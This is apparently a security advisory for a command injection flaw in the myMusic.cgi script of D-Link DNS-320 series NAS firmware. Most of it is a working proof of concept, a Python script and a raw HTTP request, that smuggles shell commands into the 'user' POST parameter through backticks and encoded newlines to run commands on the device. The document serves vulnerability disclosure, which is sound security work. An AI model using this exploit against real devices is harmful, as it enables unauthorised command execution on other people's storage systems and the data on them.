 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_get_tracks_list function of the file /cgi-bin/myMusic.cgi.  The variable `user`is passed from a POST request and is assigned to `v1` via the `snprintf` function at line 64  and invoked by the `system` command,  it can lead to command execution.

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723710010583-795d9b8b-0438-4b1b-81dc-24e2d3faea10.png#averageHue=%23f9f9f5&clientId=u077ab749-c3ad-4&from=paste&height=176&id=u53f51271&originHeight=176&originWidth=1028&originalType=binary&ratio=1&rotation=0&showTitle=false&size=32889&status=done&style=none&taskId=ud037b65f-88ac-4a8e-9bc4-86a2c2f09c3&title=&width=1028)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_get_tracks_list&user=`touch%09/tmp/113`&type=1&user=photos&idx=10&user=%0atouch%09/tmp/112%0a&genre=10&date=19&r=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_get_tracks_list&user=`touch%09/tmp/113`&type=1&user=photos&idx=10&user=%0atouch%09/tmp/112%0a&genre=10&date=19&r=/tmp/
```

